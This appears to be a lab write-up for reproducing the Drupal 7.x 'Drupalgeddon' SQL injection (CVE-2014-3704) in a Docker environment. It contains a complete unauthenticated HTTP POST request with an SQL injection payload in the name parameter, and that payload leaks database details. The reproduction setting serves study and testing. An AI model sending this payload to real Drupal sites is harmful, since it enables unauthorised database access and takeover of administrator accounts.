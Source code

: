 # Drupal < 7.32 "Drupalgeddon" SQL Injection Vulnerability (CVE-2014-3704)

Drupal is a large-scale CMS, and there is a SQL vulnerability that does not require authentication in the 7.0~7.31 version. Through this vulnerability, an attacker can execute arbitrary SQL statements, insert, modify administrator information, and even execute arbitrary code.

## vulnerability environment

Run the following command to start the Drupal 7.31 environment:

```
Docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080` to see the Drupal installation page, and install it using the default configuration.

Among them, the Mysql database name is filled in `drupal`, the database user name and password are `root`, and the address is `mysql`:

![](1.png)

After the installation is complete, visit the home page:

![](2.png)

## Vulnerability recurrence

The vulnerability does not require authentication, and a malicious SQL statement can be executed by sending the following packet:

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

Pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

Visible, the information has been revealed:

![](3.png)